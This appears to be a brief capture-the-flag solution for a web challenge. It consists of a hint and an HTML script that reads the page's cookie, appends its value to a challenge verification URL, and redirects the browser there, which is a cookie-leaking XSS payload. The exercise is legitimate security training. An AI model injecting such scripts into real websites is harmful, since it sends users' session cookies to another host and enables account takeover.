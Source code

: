 Hint: (XSS) the injected code must do a redirection to the specified page using the cookie stored on the server machine.

```html
<script>
  function getsecondpart(str) {
      return str.split('=')[1];
  }

  var link = "https://chall.necst.it/challenges/web3/verify/2449/" + getsecondpart(document.cookie);

  setTimeout(function() {
    window.location.href = link;
  }, 5000);
</script>
```
